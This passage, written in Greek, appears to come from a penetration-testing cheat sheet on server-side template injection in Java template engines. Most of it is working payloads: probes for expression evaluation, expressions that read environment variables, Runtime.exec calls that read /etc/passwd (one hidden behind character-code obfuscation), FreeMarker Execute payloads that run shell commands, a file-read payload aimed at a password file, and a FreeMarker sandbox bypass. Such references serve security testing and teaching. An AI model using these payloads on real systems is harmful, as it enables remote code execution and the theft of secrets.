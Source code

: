 **Java - Βασική εισαγωγή**
```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
// if ${...} doesn't work try #{...}, *{...}, @{...} or ~{...}.
```
**Java - Ανάκτηση των μεταβλητών περιβάλλοντος του συστήματος**
```java
${T(java.lang.System).getenv()}
```
**Java - Ανάκτηση /etc/passwd**
```java
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
### FreeMarker (Java)

Μπορείτε να δοκιμάσετε τα payload σας στο [https://try.freemarker.apache.org](https://try.freemarker.apache.org)

- `{{7*7}} = {{7*7}}`
- `${7*7} = 49`
- `#{7*7} = 49 -- (legacy)`
- `${7*'7'} Τίποτα`
- `${foobar}`
```java
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}

${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```
**Freemarker - Παράκαμψη Sandbox**

⚠️ λειτουργεί μόνο σε εκδόσεις Freemarker κάτω από 2.3.30
```java
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```
**Περισσότερες πληροφορίες**
